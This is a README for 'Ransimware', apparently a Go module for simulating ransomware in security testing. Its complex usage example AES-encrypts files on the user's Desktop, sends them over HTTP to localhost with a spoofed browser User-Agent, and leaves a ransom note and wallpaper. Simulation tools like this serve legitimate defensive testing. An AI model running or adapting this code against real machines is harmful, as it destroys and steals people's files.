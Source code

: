 # Ransimware

<a href="https://www.buymeacoffee.com/mjwhitta">🍪 Buy me a cookie</a>

[![Go Report Card](https://goreportcard.com/badge/gitlab.com/mjwhitta/ransimware)](https://goreportcard.com/report/gitlab.com/mjwhitta/ransimware)

## What is this?

This Go module allows you to simulate ransomware.

## How to install

Open a terminal and run the following:

```
$ go get -u gitlab.com/mjwhitta/ransimware
```

## Usage

Minimal example:

```
package main

import (
    "os"
    "path/filepath"

    rw "gitlab.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Since no encrypt function is defined, the default behavior is
    // to do nothing

    // Since no exfil function is defined, the default behavior is to
    // do nothing

    // Since no notify function is defined, the default behavior is to
    // do nothing

    // Target the user's Desktop folder
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

More complex example:

```
package main

import (
    "os"
    "path/filepath"
    "strings"

    rw "gitlab.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Set encryption method to AES using provided helper function
    sim.Encrypt = rw.AESEncrypt("password")

    // Set exfil method to be HTTP using provided helper function
    sim.Exfil = rw.HTTPExfil(
        "http://localhost:8080",
        map[string]string{
            "User-Agent": strings.Join(
                []string{
                    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
                    "AppleWebKit/537.36 (KHTML, like Gecko)",
                    "Chrome/84.0.4147.105 Safari/537.36",
                },
                " ",
            ),
        },
    )

    // Notify user by changing wallpaper and leaving a ransom note,
    // using the provided helper functions
    sim.Notify = func() error {
        rw.WallpaperNotify(
            "C:\\Windows\\Temp\\ransom.png",
            rw.DefaultPNG,
        )()

        rw.RansomNote(
            filepath.Join(home, "Desktop", "ransomnote.txt"),
            []string{"This is a ransomware simulation."},
        )()

        return nil
    }

    // Target the user's Desktop folder
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

## Links

- [Source](https://gitlab.com/mjwhitta/ransimware)

## TODO

- Provide more helper functions
    - DNS exfil
    - FTP exfil
    - RSA encryption
